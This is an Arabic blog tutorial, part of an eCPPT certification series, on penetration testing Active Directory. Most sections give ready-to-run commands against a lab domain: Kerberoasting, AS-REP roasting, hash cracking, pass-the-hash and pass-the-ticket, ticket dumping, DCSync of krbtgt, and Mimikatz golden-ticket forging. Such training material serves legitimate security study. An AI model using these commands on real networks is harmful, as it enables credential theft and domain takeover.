



يعد الدليل النشط (**Active Directory - AD**) البيئة الإدارية المركزية لأكثر من 90% من كبرى الشركات والمؤسسات حول العالم. ولذلك، تخصص شهادة **eCPPT** حيزًا جوهريًا لاختبار اختراق نطاقات ويندوز، والتحرك داخل بيئات المؤسسات من مجرد موطئ قدم أولي (Initial Foothold) حتى السيطرة المطلقة على النطاق كـ **Domain Admin**.

في هذا الدليل الهندسي المعمق، سنشرح بالتفصيل كيفية تشريح بروتوكول **Kerberos**، واستخدام أدوات التحليل الرسومي مثل **BloodHound**، وتنفيذ الهجمات المتقدمة على التذاكر والهاشات، وتثبيت التواجد المستمر (Persistence) داخل شبكة الدليل النشط.

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 3: اختبار اختراق الشبكات وهجمات MITM](/posts/ecppt-v3-part-3-network-penetration-testing/) | **الجزء 4: اختبار اختراق الدليل النشط (Active Directory)** | [الجزء 5: دليل تصعيد الصلاحيات (Privilege Escalation)](/posts/ecppt-v3-part-5-privilege-escalation-playbook/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **بنية بروتوكول كيربيروس (Kerberos Internals)**: يعتمد النظام على مصادقة التذاكر الصادرة من مركز توزيع المفاتيح (KDC) عبر ثلاث مراحل: تذكرة منح التذاكر (TGT) الصادرة من خدمة المصادقة (AS)، وتذكرة الخدمة (TGS) الصادرة من خادم منح التذاكر، ثم إرسالها إلى الخدمة النهائية.
* **استهداف حسابات الخدمات (Kerberoasting)**: أي مستخدم عادي داخل النطاق يمكنه قانونيًا طلب تذكرة TGS لأي حساب خدمة يمتلك اسم مدير الخدمة (SPN). وبما أن جزءًا من هذه التذكرة مشفر بكلمة مرور حساب الخدمة، يمكن استخراجه وكسره أوفلاين دون تنبيه أنظمة الدفاع.
* **هجوم AS-REP Roasting**: يستهدف الحسابات التي تم تعطيل متطلب المصادقة الأولية لها (`Do not require Kerberos preauthentication`)؛ حيث يمكن طلب تذكرة مباشرة من الـ KDC دون تقديم كلمة مرور، ثم كسر الهاش المشفر محليًا.
* **إعادة تدوير الهويات (Pass-the-Hash & Pass-the-Ticket)**: لا يشترط كسر كلمة المرور إلى نص صريح؛ فيمكن إعادة استخدام هاشات NTLM مباشرة للتحكم في الأجهزة البعيدة، أو حقن تذاكر كيربيروس (`.kirbi` / `.ccache`) في ذاكرة الجلسة.
* **الاستمرارية المطلقة (Golden & Silver Tickets)**: السيطرة على هاش حساب `krbtgt` تمنح المهاجم القدرة على صياغة تذاكر TGT وهمية تمنحه صلاحيات غير محدودة لا تسقط بتغيير كلمات مرور المستخدمين، بينما تستهدف Silver Tickets تزوير تذاكر خدمات محددة بصمت تام بعيدًا عن الـ DC.

---

## 1. البنية المعمارية للدليل النشط (Active Directory Architecture)

يجمع الدليل النشط الكائنات (Objects) مثل المستخدمين، أجهزة الحاسوب، المجموعات، وسياسات المجموعة (GPOs) في تسلسل هرمي منظم:

* **الغابة (Forest)**: أعلى مستوى أمني وتجميعي؛ تشترك كافة النطاقات بداخلها في مخطط موحد (Schema) وفهرس عمومي (Global Catalog).
* **النطاق (Domain)**: وحدة إدارية منطقية تتشارك قاعدة بيانات أمنية واحدة يديرها خادم أو أكثر يُعرف بمتحكم النطاق (**Domain Controller - DC**).
* **الوحدات التنظيمية (OUs)**: حاويات فرعية داخل النطاق لتنظيم الكائنات وتطبيق سياسات المجموعة (GPOs) عليها.
* **علاقات الثقة (Trust Relationships)**: روابط تربط النطاقات ببعضها للسماح للمستخدمين بالوصول إلى موارد خارج نطاقهم المحلي (One-way, Two-way, Transitive Trusts).

---

## 2. تعداد النطاق واكتشاف مسارات الهجوم (Enumeration & Graph Analysis)

### استخدام سكربت PowerView للاستكشاف اليدوي:

```powershell
# استيراد سكريبت PowerView
Import-Module .\PowerView.ps1

# استعراض معلومات النطاق والسياسات العامة
Get-Domain
Get-DomainPolicy

# تعداد مستخدمي النطاق والبحث عن الحسابات الحساسة
Get-DomainUser -Properties samaccountname,description | Out-GridView

# استخراج أعضاء مجموعة مدراء النطاق (Domain Admins)
Get-DomainGroupMember -Identity "Domain Admins"

# البحث عن حسابات تمتلك حقوق مدير محلي على أجهزة أخرى
Find-LocalAdminAccess
```

### التحليل الرسومي المتقدم عبر BloodHound & SharpHound:

يعد **BloodHound** الأداة الثورية في بيئات Active Directory؛ إذ تحول علاقات الصلاحيات المعقدة وصلاحيات الـ ACLs المخفية إلى رسم بياني (Graph Analysis) يكشف أقصر طريق للوصول إلى الـ Domain Admin:



```powershell
# جمع كافة بيانات النطاق عبر SharpHound بصيغة مضغوطة
Invoke-BloodHound -CollectionMethods All -OutputDirectory C:\Temp -ZipFileName ad_loot.zip
```

نقوم بنقل الملف الناتج واستيراده إلى واجهة BloodHound GUI والبحث عبر استعلامات Cypher سابقة التجهيز مثل:
* `Find Shortest Paths to Domain Admins`
* `Find Shortest Paths from Kerberoastable Users`
* `Find Workstations where Domain Users have Local Admin`

---

## 3. تشريح بروتوكول كيربيروس وهجمات التذاكر (Kerberos Deep-Dive)

يعتمد بروتوكول Kerberos على تشفير متناظر ومصادقة متبادلة لحماية هويات المستخدمين:



---

## 4. تنفيذ الهجمات المتقدمة على كيربيروس (Executing Kerberos Attacks)

### 1. هجوم Kerberoasting

نبحث عن الحسابات التي تمتلك قيمة `servicePrincipalName` مسجلة، ونطلب تذاكر TGS لها ثم نحفظها بصيغة يقبلها كاسر الهاشات **Hashcat**:

```powershell
# استخراج التذاكر عبر أداة Rubeus داخل بيئة ويندوز
.\Rubeus.exe kerberoast /outfile:kerb_hashes.txt /format:hashcat

# أو عبر جهاز كالي لينكس باستخدام Impacket GetUserSPNs
GetUserSPNs.py inlanefreight.local/forend:Password123 -dc-ip 10.10.10.50 -request -outputfile kerb_hashes.txt
```

```bash
# كسر الهاش محليًا باستخدام Hashcat (Mode 13100 لـ Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt -O
```

---

### 2. هجوم AS-REP Roasting

نستعلم عن الحسابات التي تملك خاصية `DONT_REQ_PREAUTH` مفعلة (أي لا تتطلب مصادقة أولية لتزويدها بـ AS-REP):

```bash
# استخراج الهاشات لحسابات Pre-Auth Disabled عبر Impacket
GetNPUsers.py inlanefreight.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -dc-ip 10.10.10.50
```

```bash
# كسر الهاش عبر Hashcat (Mode 18200 لـ Kerberos 5 AS-REP etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -O
```

---

## 5. تقنيات الحركة الجانبية (Lateral Movement via Credential Replay)

### 1. هجوم تمرير الهاش (Pass-the-Hash - PtH)
إذا حصلنا على هاش NTLM لمستخدم يمتلك صلاحيات مدير محلي أو مدير نطاق، لا نحتاج إلى معرفة كلمة المرور النصية إطلاقًا:

```bash
# تنفيذ أوامر تفاعلية عبر Impacket wmiexec
wmiexec.py -hashes :7fc07bbe74664a7726da442b439aa4b5 Administrator@10.10.10.60

# تنفيذ هجوم متعدد الأهداف وفحص الأجهزة عبر CrackMapExec
crackmapexec smb 10.10.10.0/24 -u Administrator -H 7fc07bbe74664a7726da442b439aa4b5 --exec-method smbexec -x "whoami"
```

### 2. هجوم تمرير التذكرة (Pass-the-Ticket - PtT)
إذا حصلنا على تذكرة كيربيروس بصيغة `.kirbi` من الذاكرة أو عبر Rubeus، يمكننا حقنها مباشرة في جلسة المستخدم الحالية:

```powershell
# استخراج تذاكر الجلسات النشطة من الذاكرة عبر Rubeus
.\Rubeus.exe dump

# حقن التذكرة المستخرجة في الجلسة الحالية
.\Rubeus.exe ptt /ticket:doIEwjCCBL6gAwIBBaEDAgEWooIE...kirbi

# التحقق من وجود التذكرة بالذاكرة (ستظهر التذكرة وتسمح بالوصول الفوري للموارد)
klist
dir \\DC01.inlanefreight.local\c$
```

---

## 6. تقنيات تثبيت التواجد المستمر (Domain Persistence)

### 1. هجوم DCSync
يستغل المهاجم الصلاحيات الإدارية الممنوحة لمزامنة متحكمات النطاق (`DS-Replication-Get-Changes-All`) لمحاكاة سلوك متحكم نطاق حقيقي، ومطالبة الـ DC الأصلي بتفريغ كافة هاشات النطاق بما فيها حسابات المدراء وحساب `krbtgt` الحرج:

```bash
# تفريغ هاشات النطاق بالكامل دون تشغيل أي كود على سيرفر الـ DC نفسه!
secretsdump.py inlanefreight.local/da_user:SuperPass123@10.10.10.50 -just-dc-user krbtgt
```

### 2. التذكرة الذهبية (Golden Ticket)
باستخدام هاش حساب `krbtgt` ومُعرف أمان النطاق (Domain SID)، يقوم المهاجم بصياغة تذكرة TGT وهمية وصالحة لمدة 10 سنوات، تمكنه من تجسيد أي مستخدم يريده والدخول كـ Domain Admin أو Enterprise Admin في أي وقت:

```powershell
# صياغة وحقن التذكرة الذهبية عبر Mimikatz
mimikatz # kerberos::golden /user:Administrator /domain:inlanefreight.local /sid:S-1-5-21-1337-4242-9999 /krbtgt:b2a59a3... /id:500 /ptt
```



---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **Microsoft MS-KILE: Kerberos Protocol Extensions**: التوثيق المعماري الرسمي لبروتوكول كيربيروس من مايكروسوفت.
2. **SpecterOps BloodHound Documentation**: [https://bloodhound.readthedocs.io/](https://bloodhound.readthedocs.io/)
3. **Rubeus: An Active Directory & Kerberos Toolset by HarmJ0y**: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
4. **Benjamin Delpy's Mimikatz Wiki**: [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki)
5. **MITRE ATT&CK Matrix for Enterprise**:
   * Technique T1558: Steal or Forge Kerberos Tickets (Kerberoasting, AS-REP Roasting, Golden/Silver Tickets)
   * Technique T1003.006: OS Credential Dumping: DCSync

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
